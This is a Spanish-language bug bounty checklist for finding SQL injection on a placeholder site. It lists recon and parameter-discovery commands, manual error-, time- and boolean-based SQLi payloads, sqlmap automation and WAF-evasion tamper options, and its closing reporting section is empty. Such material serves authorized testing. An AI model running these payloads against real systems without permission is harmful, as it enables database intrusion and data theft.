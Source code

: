 ```yaml
---
tags:
  - BugBounty
---
```

---
✅ **Fase 1:** Recolección de información  
✅ **Fase 2:** Identificación de parámetros  
✅ **Fase 3:** Pruebas manuales de SQLi  
✅ **Fase 4:** Confirmación con SQLi time-based y boolean-based  
✅ **Fase 5:** Automatización con `sqlmap`  
✅ **Fase 6:** Evasión de WAFs  
✅ **Fase 7:** Reporte con pruebas y recomendaciones

---

#  1️⃣ RECONOCIMIENTO (RECON)

### Recolectar Subdominios y Endpoints

✔️ **Enumerar subdominios (Wildcard `*.example.com`)**

- **Herramientas:**
    
    ```bash
    amass enum -passive -d example.com
    subfinder -d example.com
    assetfinder --subs-only example.com
    ```
    

✔️ **Buscar endpoints ocultos**

- **Wayback Machine & CommonCrawl:**
    
    ```bash
    waybackurls example.com | tee urls.txt
    gau example.com | tee -a urls.txt
    ```
    
- **Google Dorks:**
    
    ```bash
    site:example.com inurl:php?id=
    site:example.com ext:php | ext:asp | ext:aspx | ext:jsp
    ```
    

✔️ **Extraer endpoints de JavaScript:**

```bash
katana -u https://example.com -jc -d 2 -o js_endpoints.txt
```

---

# 2️⃣ ENUMERACIÓN Y ANÁLISIS DE PARÁMETROS

### **📌 Identificar parámetros en URLs**

✔️ **Extraer y filtrar posibles parámetros vulnerables**

```bash
cat urls.txt | gf sqli | tee sqli_candidates.txt
```

✔️ **Enumerar parámetros ocultos**

```bash
paramspider -d example.com
```

✔️ **Buscar formularios y puntos de entrada en la web (Burp Suite, FFuF, dirsearch)**

```bash
ffuf -u https://example.com/FUZZ -w /path/to/common.txt
```

---




# 3️⃣ PRUEBAS DE INYECCIÓN SQL

### **📌 Identificar si hay filtrado de caracteres**

✔️ **Probar carga básica para ver si hay filtrado de comillas (`'`)**

```bash
curl "https://example.com/page.php?id=1'"
```

✔️ **Detectar si hay algún WAF activo**

```bash
wafw00f https://example.com
```

### **📌 SQLi Clásica (Error-Based)**

✔️ **Probar inyecciones con errores de SQL visibles**

```bash
id=1' --  
id=1' OR 1=1 --  
id=1' ORDER BY 10 --  
```

✔️ **Forzar errores de SQL para detectar si hay una base de datos detrás**

```bash
id=1' AND (SELECT 1 FROM (SELECT(SLEEP(5)))a) --  
```

---

# SQLi BASADA EN TIEMPO (TIME-BASED)

✔️ **Si la página sigue funcionando normalmente, probar con `SLEEP()`**

```bash
id=1' AND SLEEP(5) --  
id=1" AND SLEEP(5) --  
```

✔️ **Detectar retrasos en la carga con `time-based blind`**

```bash
id=1 AND IF(1=1, SLEEP(5), 0) --  
```

---

# 5️⃣ SQLi BASADA EN BOOLEANOS (BOOLEAN-BASED)

✔️ **Modificar consultas para provocar cambios en la página**

```bash
id=1' AND 1=1 -- (Carga normal)  
id=1' AND 1=2 -- (Debe cambiar)  
```

---

# 6️⃣ AUTOMATIZAR CON SQLMAP

✔️ **Probar automáticamente con `sqlmap`**

```bash
sqlmap -u "https://example.com/page.php?id=1" --dbs --batch --random-agent
```

✔️ **Si es una petición POST o JSON, usar `-r` con un archivo de Burp Suite**

```bash
sqlmap -r request.txt --dbs --batch
```

---

# 7️⃣ EVADIR FIREWALLS Y WAFs

✔️ **Usar técnicas de evasión de WAFs**

```bash
sqlmap -u "https://example.com/page.php?id=1" --dbs --tamper=space2comment,randomcase
```

✔️ **Codificar payloads manualmente (Hex, Unicode, Base64)**

```bash
id=0x31 -- (1 en hexadecimal)
id=1%27%20-- (1' -- en URL encoded)
```

---

# 8️⃣ INFORME Y RESPONSIBLE DISCLOSURE



